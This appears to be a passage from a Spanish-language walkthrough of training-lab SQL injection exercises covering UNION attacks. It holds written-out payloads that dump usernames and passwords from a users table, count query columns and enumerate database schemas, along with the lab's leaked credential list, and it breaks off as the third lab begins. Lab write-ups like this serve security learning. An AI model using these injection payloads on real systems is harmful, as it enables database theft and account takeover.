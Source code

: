 Y para poder ver el contenido del `username` y del `password` haremos lo siguiente...

```mysql
' union select NULL,PASSWORD_MJWVFY||':'||USERNAME_UGMMPB from USERS_NADZKF-- -
```

Veremos esto...

```
|2nwbzbzmt1znmwdtb02r:wiener|
|gl4x0f8gfbciozsmeqk4:administrator|
|re1ubcoda6pcoz8176aq:carlos|
```

Por lo que nos logeamos con el de `admin` y ya estaria...

<figure><img src="../.gitbook/assets/sql3.png" alt=""><figcaption></figcaption></figure>

### Lab: SQL injection UNION attack, determining the number of columns returned by the query

En este caso te dice que tienes que rellenar todas las columnas de `NULL`, por lo que haremos lo siguiente...

Veremos cuantas columnas tiene...

```mysql
' order by 3-- -
```

Con esto sabemos que si ponemos `4` ya nos devuelve un error, por lo que son `3`...

```mysql
' union select NULL,NULL,NULL-- -
```

Y si ponemos eso, ya habriamos rellenado las 3 columnas que hay de `NULL` por lo que ya lo tendriamos resuelto...

### Lab: SQL injection UNION attack, finding a column containing text

En este caso lo que hay que hacer es poner la cadena `qnUgvU` en la columna que sea inyectable, para ver eso tendremos que ver lo siguiente...

```mysql
' union select NULL,schema_name,NULL from information_schema.schemata-- -
```

Con esto sabemos que el `NULL` del medio es inyectable, por lo que haremos lo siguiente...
